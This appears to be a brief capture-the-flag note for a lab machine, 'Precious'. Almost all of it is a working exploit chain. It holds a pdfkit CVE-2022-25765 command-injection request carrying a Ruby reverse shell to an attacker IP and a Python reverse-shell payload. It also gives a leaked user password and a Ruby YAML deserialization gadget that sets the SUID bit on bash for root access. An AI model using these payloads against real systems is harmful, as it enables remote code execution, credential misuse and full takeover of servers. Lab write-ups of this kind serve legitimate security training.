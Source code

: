 # ip
10.10.11.189 

# exploit
nginx/1.18.0 + Phusion Passenger(R) 6.0.15

# faille
pdfkit v0.8.6
cve 2022-25765
http:// /

# md5 interessant
cb83a580e3465f4438dc022656b29c21

# curl
curl 'http://precious.htb' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.14.122%3A8000%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-IP%22%2C4444%29%29%27%60'

# webpage
http://10.10.14.122:8000/?name=` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.122",4444))')

# shell interactif
python3 -c 'import pty; pty.spawn("/bin/sh")'

# reverse shell
http://example.com/?name=#{'%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.110",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`'}

# henry
.bundle/config:BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

# ssh connection
user : henry
pass : Q3c1AqGHtoI0aXAYFH

# dependencies.yml suid bash 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve

# root privilege
cp -r /usr/bin/bash ./
chmod +s bash
touch test
bash test -exec whoami \;
id 